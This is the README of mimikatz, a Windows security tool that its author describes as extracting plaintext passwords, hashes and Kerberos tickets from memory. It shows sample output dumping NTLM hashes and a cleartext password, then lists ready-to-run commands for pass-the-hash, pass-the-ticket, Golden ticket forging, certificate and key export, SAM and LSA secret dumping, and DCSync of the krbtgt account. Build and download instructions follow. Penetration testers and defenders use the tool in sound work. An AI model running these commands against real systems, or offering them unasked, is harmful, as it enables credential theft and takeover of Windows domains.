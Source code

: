 # mimikatz

**`mimikatz`** is a tool I've made to learn `C` and make somes experiments with Windows security.

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   https://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */


mimikatz # privilege::debug
Privilege '20' OK
 
mimikatz # sekurlsa::logonpasswords
 
Authentication Id : 0 ; 515764 (00000000:0007deb4)
Session           : Interactive from 2
User Name         : Gentil Kiwi
Domain            : vm-w7-ult-x
SID               : S-1-5-21-1982681256-1210654043-1600862990-1000
        msv :
         [00000003] Primary
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * LM       : d0e9aee149655a6075e4540af1f22d3b
         * NTLM     : cc36cf7a8514893efccd332446158b1a
         * SHA1     : a299912f3dc7cf0023aef8e4361abfc03e9a8c30
        tspkg :
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * Password : waza1234/
...
```
But that's not all! `Crypto`, `Terminal Server`, `Events`, ... lots of informations in the GitHub Wiki https://github.com/gentilkiwi/mimikatz/wiki or on https://blog.gentilkiwi.com (in French, _yes_).

If you don't want to build it, binaries are availables on https://github.com/gentilkiwi/mimikatz/releases


## Quick usage
```
log
privilege::debug
```

### sekurlsa
```
sekurlsa::logonpasswords
sekurlsa::tickets /export

sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

### kerberos
```
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi

kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### crypto
```
crypto::capi
crypto::cng

crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE

crypto::keys /export
crypto::keys /machine /export
```

### vault & lsadump
```
vault::cred
vault::list

token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert

lsadump::dcsync /user:domain\krbtgt /domain:lab.local
```

## Build
`mimikatz` is in the form of a Visual Studio Solution and a WinDDK driver (optional for main operations), so prerequisites are:
* for `mimikatz` and `mimilib` : Visual Studio 2010, 2012 or 2013 for Desktop (**2013 Express for Desktop is free and supports x86 & x64** - http://www.microsoft.com/download/details.aspx?id=44914)
* _for `mimikatz driver`, `mimilove` (and `ddk2003` platform) : Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800_

`mimikatz` uses `SVN` for source control, but is now available with `GIT` too!
You can use any tools you want to sync, even incorporated `GIT` in Visual Studio 2013 =)

### Synchronize!
* GIT URL is  : https://github.com/gentilkiwi/mimikatz.git
* SVN URL is  : https://github.com/gentilkiwi/mimikatz/trunk
* ZIP file is : https://github.com/gentilkiwi/mimikatz/archive/master.zip

### Build the solution
* After opening the solution, `Build` / `Build Solution` (you can change architecture)
* `mimikatz` is now built and ready to be used! (`Win32` / `x64` even `ARM64` if you're lucky)
  * you can have error `MSB3073` about `_build_.cmd` and `mimidrv`, it's because the driver cannot be build without Windows Driver Kit **7.1** (WinDDK), but `mimikatz` and `mimilib` are OK.

### ddk2003
With this optional MSBuild platform, you can use the WinDDK build tools, and the default `msvcrt` runtime (smaller binaries, no dependencies)

For this optional platform, Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800 and Visual Studio **2010** are mandatory, even if you plan to use Visual Studio 2012 or 2013 after.

Follow instructions:
* https://blog.gentilkiwi.com/programmation/executables-runtime-defaut-systeme
* _https://blog.gentilkiwi.com/cryptographie/api-systemfunction-windows#winheader_

## Continuous Integration
`mimikatz` project is available on AppVeyor - https://ci.appveyor.com/project/gentilkiwi/mimikatz

Its status is: ![AppVeyor CI status](https://ci.appveyor.com/api/projects/status/github/gentilkiwi/mimikatz?svg=true&retina=true)

## Licence
CC BY 4.0 licence - https://creativecommons.org/licenses/by/4.0/

`mimikatz` needs coffee to be developed:
* PayPal: https://www.paypal.me/delpy/

## Author
* Benjamin DELPY `gentilkiwi`, you can contact me on Twitter ( @gentilkiwi ) or by mail ( benjamin [at] gentilkiwi.com )
* DCSync and DCShadow functions in `lsadump` module were co-writed with Vincent LE TOUX, you can contact him by mail ( vincent.letoux [at] gmail.com ) or visit his website ( http://www.mysmartlogon.com )

This is a **personal** development, please respect its philosophy and don't use it for bad things!#   m i m i k a t z  
 